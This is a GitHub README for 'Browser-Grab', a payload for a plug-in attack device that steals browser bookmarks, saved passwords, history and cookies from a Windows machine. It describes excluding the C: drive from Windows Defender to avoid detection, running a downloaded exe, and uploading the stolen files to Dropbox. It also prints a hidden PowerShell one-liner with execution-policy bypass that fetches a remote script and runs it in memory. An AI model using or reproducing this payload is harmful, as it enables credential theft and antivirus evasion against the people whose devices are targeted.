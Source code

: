 <h1 align="center">
  <a href="https://git.io/typing-svg">
    <img src="https://readme-typing-svg.herokuapp.com/?lines=Welcome+to+the;Browser+Grab!+😈&center=true&size=30">
  </a>
</h1>

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Browser-Grab

A payload to exfiltrate bookmarks, passwords, history and cookies of most popular browsers

## Description

This payload will exclude the C: drive on the device so Windows Defender doesnt flag the exe
This payload will then download an exe designed to exfiltrate bookmarks, passwords, history and cookies of most popular browsers
Finally, dropbox will be used to exfiltrate the files to cloud storage

## Getting Started

### Dependencies

* DropBox or other file sharing service - Your Shared link for the intended file
* Admin privilegess on the Device you are targeting
* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory
```
powershell -w h -NoP -NonI -ep Bypass $pl = iwr < Your Shared link for the intended file> ?dl=1; iex $pl
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

atomiczsec

I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://www.youtube.com/channel/UC-7iJTFN8-CsTTuXd3Va6mA?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/atomiczsec">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>I-Am-Jakoby's Discord
    </td>
  </tr>
</table>
</div>

<p align="right">(<a href="#top">back to top</a>)</p>




<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [I-Am-Jakoby](https://github.com/I-Am-Jakoby)

<p align="right">(<a href="#top">back to top</a>)</p>
